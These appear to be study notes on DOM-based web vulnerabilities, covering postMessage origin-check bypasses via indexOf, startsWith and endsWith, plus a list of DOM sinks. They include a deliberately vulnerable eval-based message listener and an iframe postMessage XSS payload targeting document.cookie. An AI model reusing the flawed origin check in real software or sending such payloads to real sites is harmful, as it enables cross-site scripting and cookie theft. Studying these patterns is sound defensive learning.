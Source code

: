 - The `indexOf` method is used to try and verify that the origin of the incoming message is the `normal-website.com` domain. However, in practice, it only checks whether the string `"normal-website.com"` is contained anywhere in the origin URL.
- this can be bypass by `http://www.normal-web.com.attacker.net`
- the same flaw also applied to verification checks relay on `startsWith() or endsWith()` methods.
- `example:` `http://www.malicious-websitenormal-website.com` as safe acc. to the verifyier methods

```
window.addEventListener('message', function(e){
if(e.origin.endsWith('normal-website.com')){
eval(e.data)}})

```

exploit

```
<iframe src=https://vuln-web.com/ onload='this.contentWindow.postMessage("{\\"type\\":\\"load-channel\\",\\"url\\":\\"javascript:alert(document.cookie)\\"}","*")'>

```

# Sinks lead to DOM-based vulnerability

### [DOM XSS](https://portswigger.net/web-security/cross-site-scripting/dom-based)

- example sink `document.write()`

### [Open redirect Dom-based](https://portswigger.net/web-security/dom-based/open-redirection)

- example sink `window.location`

### [cookie manipulation dom-based](https://portswigger.net/web-security/dom-based/cookie-manipulation)

- example sink `document.cookie`

### [javaScript injection dom-based](https://portswigger.net/web-security/dom-based/javascript-injection)

- example sink `eval()`

### [Document-domain manipulation dom based](https://portswigger.net/web-security/dom-based/document-domain-manipulation)

### [webSocket-Url poisoning dom](https://portswigger.net/web-security/dom-based/websocket-url-poisoning)

### [Link manipulation dom](https://portswigger.net/web-security/dom-based/link-manipulation)
